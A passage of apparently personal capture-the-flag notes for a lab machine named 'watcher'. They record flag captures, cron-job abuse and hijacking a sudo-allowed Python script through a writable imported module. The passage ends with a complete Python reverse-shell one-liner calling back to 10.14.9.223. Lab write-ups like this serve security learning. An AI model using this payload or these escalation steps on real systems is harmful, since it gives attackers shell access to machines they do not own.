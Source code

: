 - ## sudo -u toby bash
	- cat flag_4.txt
	```bash
	toby@watcher:~$ cat flag_4.txt 
	FLAG{chad_lifestyle}
	```

- ## edit cow.sh
	- edit cow.sh with a [[revshell]] and wait for cron job to get shell as mat
	- cat flag_5.txt
	```bash
	mat@watcher:~$ cat flag_5.txt
	FLAG{live_by_the_cow_die_by_the_cow}
	```

- ## linpeas mat
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py

```

- ## cat /home/mat/scripts/will_script.py
	```python
	mat@watcher:/tmp$ cat /home/mat/scripts/will_script.py
	import os
	import sys
	from cmd import get_command
	
	cmd = get_command(sys.argv[1])
	
	whitelist = ["ls -lah", "id", "cat /etc/passwd"]
	
	if cmd not in whitelist:
		print("Invalid command!")
		exit()
	
	os.system(cmd)
	
	```
	- ## cat /home/mat/scripts/cmd.py

```python
mat@watcher:/tmp$ cat /home/mat/scripts/cmd.py 
def get_command(num):
	if(num == "1"):
		return "ls -lah"
	if(num == "2"):
		return "id"
	if(num == "3"):
		return "cat /etc/passwd"

```
- ### edit cmd.py
	- use python oneliner[[revshell]] at the beginig of the script
	```python
	import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.9.223",1236));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])
